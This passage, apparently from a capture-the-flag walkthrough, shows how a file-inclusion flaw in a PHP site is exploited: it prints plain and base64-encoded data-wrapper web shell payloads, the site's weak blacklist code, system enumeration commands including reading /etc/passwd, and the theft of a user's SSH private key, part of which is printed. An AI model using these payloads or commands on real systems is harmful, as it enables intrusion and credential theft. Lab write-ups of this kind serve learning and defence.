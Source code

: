 ```php PHP Data stream Wrapper Shell
?file=data:,<?php system($_GET[c]); ?>&c=ls
```

Sometimes however, sites tend to attempt to filter out certain PHP commands. So, in order to increase the chances of success, a base64 encoded version ends up being my favourite:

```php Base 64 Encoded Data stream Wrapper Shell
?file=data:;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4=&c=dir
```

I used this and now had shell access to the box. Remembering the basic tips of enumerate->exploit->post-exploit, I ran a few simple commands, just to get a better feel for the environment that I was facing. I was using Google Chrome. If you add 'view-source:' to the front of a url, or right click-> view source, then you will see the output for your command shell in a much neater and easier to read layout. I ran the commands `id; uname -a; sestatus; pwd; ls -lah /home; cat /etc/passwd`:

{% img http://i.imgur.com/pnBHjXv.png %}

From this we know that the server is running Fedora Core 17, with the 3.9.8-100 kernel. SELinux is disabled. There are 2 users with /home directories, of which `jetta`'s directory is protected from me reading it at the moment. root, mauk and jetta all have valid logins shells too.

Taking one quick step back, I investigated the sources of the website in order to maybe find some credentials that may attach this website to a database or something similarly useful. While doing this, I noticed the index.php page was in fact doing partial input validation, which may cause some web shells not to work :)

```php Hidden site index validation
$blacklist_include=array("php://");
for ($i=0; $i<count($blacklist_include); $i++){
         if (strpos($_GET['page'],$blacklist_include[$i]) !== false){
                die();
        }
}
$page = $_GET['page'];
include ($page);
```

### gaining further access
From here you can of course take the time to set yourself up with a very nice interactive shell using this web based remote file inclusion vulnerability. However, browsing around the file system its clear that you can browse in the user `mauk`'s home directory. While the directory itself has nothing of real value, there are still the hidden directories to view. Usually, these include things such as the users bash_history, bashrc etc. Also, ssh key related information would typically reside inside .ssh/. In this users .ssh/ directory, he left he’s SSH private key there, with permissions set so that anyone can read it. So, using the web based remote file include shell we are able to steal this off the server with the command `cat /home/mauk/.ssh/id_rsa`, which would echo us the key.

```bash User mauk's private SSH key:
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA5sm/rHHoCaTtncp7DCSIJlWnUg9eyfpJ3czIn18U1lv5ZQf0
9yGaDxafualdpXCNMo32mVQb9XQ7c2N7sdSdAjsgSjV0YG/IZGZNRyFS58YJQRdZ
5wRu6eKAlQVss/Lq3zwuBsT8Om/1/cKpVgB3ukPtKA97M5iSxL1VWWXg6GVoJ6f6
zIio/DZMFCxOU9Wyl7i8ssEoBxQlmgZh9pnYYhwo7Rf3RXBJeHDpuc1g+vol2vRN
ALXqIBlItS08MhoTaS0SK+pD98OU34M745U5Mo4TgFjYc+eD7xewyduWuS5IuFPd
xfcHkt0cQ7he0AYHuk5ooCI4ca3B0xcSZILWqwIDAQABAoIBAHNnIMxXLQNdkGAd
tsfMoLQikodrHif7WuJpG0zuG5pQ5XWKtAi7qbCvzHDnaudmT4SfDld/gneLhord
jSXQPi62aCATeL0cSGVD7pKJ7E3vbgM5bQAi7F9RnqBl1QRqjN3R1uYVrFaAU85v
f4N8umHOw5ELpLyZJ5LvZfVNB1jNIRpxINhAP+/kVslsZ93qyssljokKFMy/uOIH
r+SV3b3Zfogvg67AJ/g08jtCjYdbr7egPP2TYPMRz5fbTWCrc5m4EBvf5h5pP/w6
Go12YacY2lbF5wzbFUjIdNyF7RZHFDbSB0bM9aCDmXTfywlFswYdb7HyIZrstQ9W
BzWhIYkCgYEA/tUe/rhUcEYEXkhddkXWARcX0t9YNb8apY7WyVibiSyzh33mscRG
MLZoJJri5QMvNdYkNGr5zSGEo270Q2CzduKCbhVjXIybIbmggAc/80gZ5E8FDgJ7
szUKJL37BxXbAAYFIZkzXvc76Ve+vZvLfKMTbQqXTgKkQpGyRHLVOz8CgYEA59ht
YicNlz2yM26mpGqQNLGtEC1RmyZbPn03yJRTBJG5/sOlMw0RI+cMEiqyo7MKHmMZ
+Z7VKVtk8xEQbUy6EAeeSri/Fh1xiKRtlwwQSU1q2ooPOmdHyUp+rhseoPaDAJgy
3KJYbkQMzHVt6KhsWVTEnrz0VtxiTzRu7p2Y5ZUCgYEAt5X2RG+rdU8b6oibvI9H
```